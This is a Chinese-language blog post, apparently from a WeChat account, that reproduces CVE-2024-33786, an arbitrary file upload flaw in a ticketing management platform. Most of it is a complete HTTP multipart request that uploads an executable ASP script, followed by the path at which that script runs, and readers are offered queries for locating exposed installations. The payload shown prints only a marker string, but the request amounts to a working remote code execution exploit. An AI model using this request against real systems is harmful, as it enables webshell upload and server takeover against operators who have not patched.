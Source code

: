 #  [漏洞复现] CVE-2024-33786 中城科信票务管理平台 任意文件上传   
原创 不够安全  不够安全   2024-05-05 09:00  
  
本人非原创漏洞作者，文章仅作为知识分享用  
  
一切直接或间接由于本文所造成的后果与本人无关  
  
如有侵权，联系删除  
  
系统简介  
  
基础六管控多协同，智慧票务系统以私有/公有云为基础部署，提供票类策略管控、售票流程管控、门票核验管控、营销渠道管控、数据分析管控、财务核销管控功能，与其它业务系统数据共享，协同作业。  
```
开发语言：.Net
开发厂商：北京中成科信科技发展有限公司
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/DT3jlATYvfggc8IujdsrdeBT2L7CibsSkC8XH4Z0JjocnNdIzJmlN4S3WFH3Alzv7ZM85buT91ibz4QKQapW1QjQ/640?wx_fmt=png&from=appmsg "")  
  
空间测绘  
```
回复“20240505”获取空间测绘语句
```  
  
漏洞描述  
  
中城科信票务管理平台20.04中存在任意文件上传漏洞，攻击者可以通过上传精心设计的文件来执行任意代码。  
  
影响版本  
```
v20.04
```  
  
漏洞验证  
```
POST /SystemManager/Introduction.ashx HTTP/1.1
Host: xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Length: 507
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=--------------------------354575237365372692397370
Accept-Encoding: gzip

----------------------------354575237365372692397370
Content-Disposition: form-data; name="file"; filename="5.txt"
Content-Type: image/jpeg

<% Response.Write("c7ff66de90f5b695091cc4826d22d137") %>

----------------------------354575237365372692397370
Content-Disposition: form-data; name="fileName"

test_20240504.asp
----------------------------354575237365372692397370
Content-Disposition: form-data; name="Method"

UpdateUploadLinkPic
----------------------------354575237365372692397370
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/DT3jlATYvfggc8IujdsrdeBT2L7CibsSkFshtudkdQDpxmCSTKsh8ibSUrINqUBLGt5RicSPzUQqvp3ibtM8XOlEbg/640?wx_fmt=png&from=appmsg "")  
  
访问上传的asp文件，成功解析：  
```
http://xxx.xxx.xxx/UploadImage/20240504xxxxxx_LK.asp
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/DT3jlATYvfggc8IujdsrdeBT2L7CibsSkd2wpDXABVzUjLZAd7VeKXXibDXpic95aiad0DvpC0KfTYnvuRic4v8kzicw/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
```
https://nvd.nist.gov/vuln/detail/CVE-2024-33786
https://github.com/jiankeguyue/VulnerabilityReport/blob/main/zhongcheng_kexin_ticketing_management_platform.md
https://download.csdn.net/blog/column/12593339/137506841
```  
  
**回复“20240505”获取空间测绘语句**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/DT3jlATYvfggc8IujdsrdeBT2L7CibsSkJBvFxrTH9VwIL5KMj7YpM6Kt8Fzib4cvtVdhBA7HvpM6VT7IutEicLpQ/640?wx_fmt=gif&from=appmsg "")  
  
